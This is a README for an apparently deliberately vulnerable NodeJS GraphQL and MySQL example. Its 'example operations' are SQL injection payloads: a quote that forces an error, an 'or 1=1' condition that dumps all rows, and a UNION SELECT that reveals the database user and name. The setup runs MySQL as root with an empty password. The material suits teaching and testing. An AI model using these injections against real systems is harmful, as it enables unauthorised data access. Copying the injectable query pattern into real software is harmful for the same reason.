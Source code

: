 NodeJS graphQL MySQL example
==================================

This is a simple experimental example of how to match graphql-js and MySQL for the implementation of a GraphQL API.

- This project requires a version of NodeJS with support for async-await

Getting Started
---------------

```sh
# clone the project
git clone git@github.com:YuLeven/nodejs-graphql-mysql-example.git
cd nodejs-graphql-mysql-example

# Install dependencies
npm install

# Run the server
PORT=8085 MYSQL_DB_USER=root MYSQL_DB_NAME=exapp MYSQL_DB_PASSWORD= MYSQL_DB_ADDRESS=localhost MYSQL_DB_POOL_SIZE=10 npm start

# Access GraphQLi
http://localhost:8085/graphql
```

Please remember to export the example SQL schema located in ./sql/exapp.sql

## Example operations

### See SQL Error
```js
{
  bacon(id:"1'"){
    id,
    price,
    type
  }
}
```
#### Show all bacons
```js
{
  bacons(type:"chunky'or 1=1#"){
    id,
    price,
    type
  }
}

```

### Show current use anddatabase 
```js
{
  bacons(type:"13.0' union select current_user(),database(),3 and 1=1#"){
    id,
    price,
    type
  }
}
```





License
-------

MIT
